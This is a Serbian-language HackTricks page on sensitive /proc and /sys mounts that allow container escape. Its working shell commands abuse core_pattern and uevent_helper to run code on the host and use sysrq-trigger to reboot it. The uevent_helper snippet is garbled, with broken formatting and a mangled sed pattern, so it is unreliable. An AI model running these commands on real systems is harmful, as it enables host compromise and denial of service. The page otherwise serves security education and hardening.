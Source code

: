 # Osetljivi montažni tačkovi

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Izlaganje `/proc` i `/sys` bez odgovarajuće izolacije imenskog prostora uvodi značajne sigurnosne rizike, uključujući povećanje površine napada i otkrivanje informacija. Ovi direktorijumi sadrže osetljive datoteke koje, ako su pogrešno konfigurisane ili pristupljene od strane neovlašćenog korisnika, mogu dovesti do bekstva iz kontejnera, modifikacije domaćina ili pružanja informacija koje pomažu daljim napadima. Na primer, nepravilno montiranje `-v /proc:/host/proc` može zaobići AppArmor zaštitu zbog njegove putem zasnovane prirode, ostavljajući `/host/proc` nezaštićenim.

**Možete pronaći dalje detalje o svakom potencijalnom propustu na** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Ranjivosti

### `/proc/sys`

Ovaj direktorijum dozvoljava pristup za modifikaciju kernel promenljivih, obično putem `sysctl(2)`, i sadrži nekoliko poddirektorijuma od interesa:

#### **`/proc/sys/kernel/core_pattern`**

* Opisan u [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Omogućava definisanje programa za izvršavanje prilikom generisanja jezgrovne datoteke sa prva 128 bajta kao argumentima. Ovo može dovesti do izvršavanja koda ako datoteka počinje sa cev `|`.
*   **Primer testiranja i eksploatacije**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testirajte pristup pisanju
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Postavite prilagođeni rukovalac
sleep 5 && ./crash & # Pokrenite rukovaoca
```

#### **`/proc/sys/kernel/modprobe`**

* Detaljno u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Sadrži putanju do učitavača kernel modula, pozvanog za učitavanje kernel modula.
*   **Primer provere pristupa**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Provera pristupa modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Pomenut u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Globalna oznaka koja kontroliše da li kernel pravi paniku ili poziva OOM ubijalicu kada se pojavi OOM uslov.

#### **`/proc/sys/fs`**

* Prema [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), sadrži opcije i informacije o fajl sistemu.
* Pristup pisanju može omogućiti različite napade uskraćivanjem usluga na domaćinu.

#### **`/proc/sys/fs/binfmt_misc`**

* Omogućava registraciju interpretatora za ne-nativne binarne formate na osnovu njihovog magičnog broja.
* Može dovesti do eskalacije privilegija ili pristupa root shell-u ako je `/proc/sys/fs/binfmt_misc/register` za pisanje.
* Relevantan eksploatacioni primer i objašnjenje:
* [Rootkit preko binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Detaljan tutorijal: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ostali u `/proc`

#### **`/proc/config.gz`**

* Može otkriti konfiguraciju kernela ako je `CONFIG_IKCONFIG_PROC` omogućen.
* Korisno za napadače da identifikuju ranjivosti u pokrenutom kernelu.

#### **`/proc/sysrq-trigger`**

* Omogućava pozivanje Sysrq komandi, potencijalno uzrokujući trenutne ponovne pokrete sistema ili druge kritične akcije.
*   **Primer ponovnog pokretanja domaćina**:

```bash
echo b > /proc/sysrq-trigger # Ponovno pokreće domaćina
```

#### **`/proc/kmsg`**

* Izlaže poruke kernel prstena.
* Može pomoći u eksploataciji kernela, otkrivanju adresa i pružanju osetljivih informacija o sistemu.

#### **`/proc/kallsyms`**

* Navodi simbole kernela i njihove adrese.
* Bitno za razvoj eksploatacije kernela, posebno za prevazilaženje KASLR-a.
* Informacije o adresi su ograničene sa `kptr_restrict` postavljenim na `1` ili `2`.
* Detalji u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfejsira sa uređajem kernel memorije `/dev/mem`.
* Istoriski ranjiv na napade eskalacije privilegija.
* Više na [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Predstavlja fizičku memoriju sistema u ELF jezgrovom formatu.
* Čitanje može otkriti sadržaj memorije domaćina i drugih kontejnera.
* Veličina datoteke može dovesti do problema sa čitanjem ili rušenjem softvera.
* Detaljna upotreba u [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternativni interfejs za `/dev/kmem`, predstavlja virtuelnu memoriju kernela.
* Omogućava čitanje i pisanje, stoga direktnu modifikaciju kernel memorije.

#### **`/proc/mem`**

* Alternativni interfejs za `/dev/mem`, predstavlja fizičku memoriju.
* Omogućava čitanje i pisanje, modifikacija sve memorije zahteva rešavanje virtuelnih u fizičke adrese.

#### **`/proc/sched_debug`**

* Vraća informacije o rasporedu procesa, zaobilazeći zaštitu PID imenskog prostora.
* Izlaže imena procesa, ID-ove i identifikatore cgroup-a.

#### **`/proc/[pid]/mountinfo`**

* Pruža informacije o tačkama montiranja u imenskom prostoru montiranja procesa.
* Izlaže lokaciju `rootfs` kontejnera ili slike. 

### Ranjivosti `/sys`

#### **`/sys/kernel/uevent_helper`**

* Koristi se za rukovanje kernel uređajima `uevents`.
* Pisanje u `/sys/kernel/uevent_helper` može izvršiti proizvoljne skripte prilikom okidača `uevent`.
*   **Primer eksploatacije**: %%%bash

## Kreira payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## Pronalazi putanju domaćina iz OverlayFS montaže za kontejner

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## Postavlja uevent\_helper na zlonamerni pomoćnik

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## Okida uevent

echo change > /sys/class/mem/null/uevent

## Čita izlaz

cat /output %%%
#### **`/sys/class/thermal`**

* Kontroliše postavke temperature, potencijalno uzrokujući DoS napade ili fizičku štetu.

#### **`/sys/kernel/vmcoreinfo`**

* Otkriva adrese jezgra, potencijalno kompromitujući KASLR.

#### **`/sys/kernel/security`**

* Sadrži `securityfs` interfejs, omogućavajući konfigurisanje Linux Security Modula poput AppArmor-a.
* Pristup može omogućiti kontejneru da onemogući svoj MAC sistem.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

* Izlaže interfejse za interakciju sa EFI varijablama u NVRAM-u.
* Pogrešna konfiguracija ili eksploatacija može dovesti do oštećenih laptopova ili host mašina koje se ne mogu podići.

#### **`/sys/kernel/debug`**

* `debugfs` nudi "bez pravila" interfejs za debagovanje jezgra.
* Istorija sigurnosnih problema zbog njegove neograničene prirode.

### Reference

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi** ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
